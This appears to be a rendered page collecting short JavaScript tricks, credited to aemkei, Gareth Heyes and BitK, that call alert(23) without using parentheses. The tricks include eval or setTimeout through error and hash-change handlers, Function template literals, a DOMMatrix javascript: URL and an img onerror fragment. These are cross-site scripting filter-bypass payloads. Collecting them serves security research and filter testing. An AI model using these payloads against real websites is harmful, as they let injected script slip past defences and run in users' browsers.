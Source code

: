     c=document,h=c.head,x=h.part,p=g=h.id,h.valueOf=p.sub,x.valueOf=p.at,o=g++,l=g++,z=g++,e=g++,a=g++,s=g++,d=g++,j=g++,b=g++,h.part=h+p,y=h.innerHTML=x+p,h.part=h.innerHTML,p+=x,h.part=c.nodeName,p+=x,k=o+p,u=l+p,w=p+l,t=w+l,f=w+o+b+w,h.innerHTML=t+s+t+d+w+z+l+f+o+u+a+j+t+l+t+o+f+l+u+g+j+w+o+k+d+l,h.innerHTML=y+h.innerHTML+p+g+j+f+o+l+t+a+w+l+d+p+a+k+s+k+s+u+a+u+a+j+p+a+j+h
    

---

[aemkei](https://twitter.com/aemkei)

    onhashchange=setTimeout;
    HashChangeEvent.prototype.toString=
    RegExp.prototype.toString;
    location.hash=
    HashChangeEvent.prototype.source=
    '1/-alert\5023\51/';
    
---

[aemkei](https://twitter.com/aemkei/status/1291104722875830274?s=20)

    onload=setTimeout
    Event.prototype.toString=
    _=>"alert\5023\51"
    
---

[aemkei](https://twitter.com/aemkei/status/1290768241225326595?s=20)

    throw/**/Uncaught=window.onerror=eval,&quot;;alert\5023\51&quot;
    
---

[Gareth Heyes](https://portswigger.net/research/javascript-without-parentheses-using-dommatrix)

```
x=new DOMMatrix;
matrix=alert;
x.a=23;
location='javascript'+':'+x
```
    
--- 

[BitK](https://twitter.com/BitK_/status/1239581718635479041)

    Function`a${`alert${Function`a${`return fromCharCode`}{fromCharCode}``${String}``40`}23${Function`a${`return fromCharCode`}{fromCharCode}``${String}``41`}`}```
    
--- 

[BitK](https://twitter.com/BitK_/status/1298225144234729473)

    range = document.createRange``; 
    range.createContextualFragment`<img src=x onerror=alert\x2823\x29>'`;
    
--- 

[BitK](https://twitter.com/BitK_/status/1239620001776185344?)
```
Function`a${`${Function`a${`return from`}{from}``${Array}``96${Function`a${`return fromCharCode`}{fromCharCode}``${String}`}`}${Function`a${`return fromCharCode`}{fromCharCode}``${String}``${96}${10}${97}${108}${101}${114}${116}${40}${50}${51}${41}`}`}```
```
    